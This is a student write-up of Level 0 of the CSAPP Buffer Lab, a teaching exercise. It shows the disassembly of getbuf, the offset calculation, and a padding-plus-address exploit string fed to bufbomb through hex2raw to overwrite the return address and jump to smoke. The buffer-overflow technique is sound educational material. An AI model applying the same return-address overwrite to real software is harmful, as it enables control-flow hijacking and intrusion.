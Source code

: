 # CSAPP-Buffer Lab

* #### Level0: Candle

  ```
  Your task is to get BUFBOMB to execute the code forsmoke when getbuf executes its return statement,rather than returning to test.Note that your exploit string may also corrupt parts of the stack notdirectlyrelated to this stage, but this will not cause a problem, since smokecauses the program to exit directly.
  ```

  调用smoke函数

  ```assembly
  080491f4 <getbuf>:
   80491f4:	55                   	push   %ebp
   80491f5:	89 e5                	mov    %esp,%ebp
   80491f7:	83 ec 38             	sub    $0x38,%esp
   80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
   80491fd:	89 04 24             	mov    %eax,(%esp)
   8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
   8049205:	b8 01 00 00 00       	mov    $0x1,%eax
   804920a:	c9                   	leave  
   804920b:	c3                   	ret    
  ```

  gets获取数据到buf，buf的地址为`-0x28(%ebp)`

  | 返回地址 |
  | :------: |
  |   ebp    |
  |   buf    |
  |          |

  buf到返回地址的距离为0x28+0x4=0x2c

  gets对输入的数据没有限制，填充0x2c个字节再输入smoke地址覆盖返回地址

  smoke的地址为`0x08048c18`

  ```
  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 18 8c 04 08
  ```

  smoke的地址用小端法表示

  使用hex2row转化为字符串

  `./hex2raw < 0.txt|./bufbomb -u aidai`

  ![0](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/CSAPP-Buffer%20Lab/0.png)
